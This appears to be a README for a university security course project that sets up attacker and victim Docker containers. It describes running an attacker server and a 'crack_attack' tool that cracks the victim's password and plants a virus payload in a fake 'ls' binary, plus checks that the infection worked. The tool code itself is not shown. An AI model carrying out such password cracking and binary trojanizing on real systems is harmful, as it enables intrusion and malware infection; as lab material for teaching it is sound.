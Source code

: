 # csc2024-project3

## Install 

### Building the Docker Containers

- To set up the pasword for both the attacker and the victim, modify the 'PASSWORD' param in the csc2024-project3-docker-compose.yml file. 

- To build and run the docker containers, run the following command :
    ```
    docker compose -f csc2024-project3-docker-compose.yml up -d 
    ```

## How to run 

#### Attacker:
- Set up the attack server by running the following command: 
    ```
    ./attacker_server <attacker_port>
    ```
- Then crack the password of the victim, and inserting the virus payload into the victim's ls by using the following command: 
    ```
    ./crack_attack <victim_ip> <attacker_ip> <attacker_port>
    ```

#### Victim:

- To acitvate the virus, simply execute the 'ls' in the '/app' directory.

####

## Verification 
To verify the validity of the attack, check : 
- The size of the fake 'ls' in the /app directory with the original 'ls', using :

    ```
    wc -c /app/ls
    wc -c /usr/bin/ls
    ```
- If the signature of the fake 'ls' equals to /xaa/xbb/xcc/xdd : 
    ```
    xxd /app/ls | tail -n 1
    ```


